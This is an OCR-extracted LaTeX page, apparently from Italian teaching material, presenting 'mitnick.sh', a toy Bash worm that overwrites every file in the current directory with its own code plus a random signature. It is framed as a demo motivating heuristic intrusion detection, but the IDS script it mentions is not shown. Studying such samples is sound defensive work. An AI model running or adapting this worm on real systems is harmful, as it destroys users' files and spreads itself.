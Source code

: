 \documentclass{ldr-article}
\begin{document}
\begin{lstlisting}

generate_signature() {
    # Append a random number to the file
    echo $RANDOM >> /tmp/signatures
}

generate_signature

for f in *; do
    # Check if the file is a directory
    if [ -d "$f" ]; then
        # If it is a directory, then skip it
        continue
    fi

    if [ "$f" = "mitnick.sh" ]; then
        # If it is the worm itself, then skip it
        continue
    fi

    # Check if the first line of the file
    # is a comment line contained in the /tmp/signatures file
    if head -n 1 "$f" | grep -q -f /tmp/signatures; then
        # If it is infected, then skip it
        continue
    fi

    # Get last line of the /tmp/signatures file
    last_signature=$(tail -n 1 /tmp/signatures)

    cat mitnick.sh >> "$f.tmp"

    #Insert the last signature in the file header
    sed -i "1s/^/$last_signature\n/" "$f.tmp"

    mv "$f.tmp" "$f"
done
\end{lstlisting}

Ovviamente \texttt{mitnick} è un esempio giocattolo e per semplicità non vengono gestiti gli accessi concorrenti in scrittura al file e la propagazione nelle sub-directory. 

In quanto malware polimorfico non è identificabile da IDS basati su regole. Adottiamo quindi delle euristiche per fronteggiare l'attacco.

Lo script Bash presentato in questa demo vuole essere una forma di rudimentale di IDS che sfrutti euristiche per fronteggiare minacce non identificabili attraverso il sistema di firme.
\end{document}
